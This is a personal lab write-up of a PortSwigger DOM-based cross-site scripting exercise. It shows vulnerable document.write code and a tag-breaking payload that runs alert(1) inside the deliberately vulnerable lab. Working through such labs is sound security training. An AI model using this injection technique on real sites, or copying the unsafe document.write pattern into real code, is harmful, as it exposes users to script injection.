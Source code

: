 ## 1. General Information

- **Lab Name / Website:** PortSwigger/ https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink
- **Solution Date:** 26/4
- **Vulnerability Type:** (DOM-Based)
---
# Lab Solution Notes

## Lab Description

- There was a search **input field**.
    
- I searched for the word `z3rob` as a test.

    ![Pasted image](../images/Pasted%20image%2020250426182413.png)

## Source Code Review
![Pasted image](../images/Pasted%20image%2020250426182603.png)
- I found the following code:
    
    ```javascript
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    ```
    
![Pasted image](../images/Pasted%20image%2020250426184257.png)
- Note:
    
    - The user's value (`query`) is injected into the `src` attribute of the `<img>` element without any filtering or encoding.
        
    - This is done using `document.write`, which allows writing additional HTML code to the page.
        

## Attack Idea (Exploit Idea)

- Goal: **Break out of the `<img>` tags** and inject JavaScript code.
    
- Method:
    
    - Close the open `<img>` tag.
        
    - Inject a new script.
        

## Testing

- I entered the following value in the search:
    
    ```html
    "><script>alert(1)</script>z3rob
    ```
    
- Result:
    
    - The resulting code in the DOM became:
        
        ```html
        <img src="/resources/images/tracker.gif?searchTerms="><script>alert(1)</script>z3rob">
        ```
        
    - The script was successfully executed and an alert appeared.
        ![Pasted image](../images/Pasted%20image%2020250426184046.png)

![Pasted image](../images/Pasted%20image%2020250426184054.png)

## Summary

- Main cause of the vulnerability: Using **`document.write`** with **user input** without protection or filtering
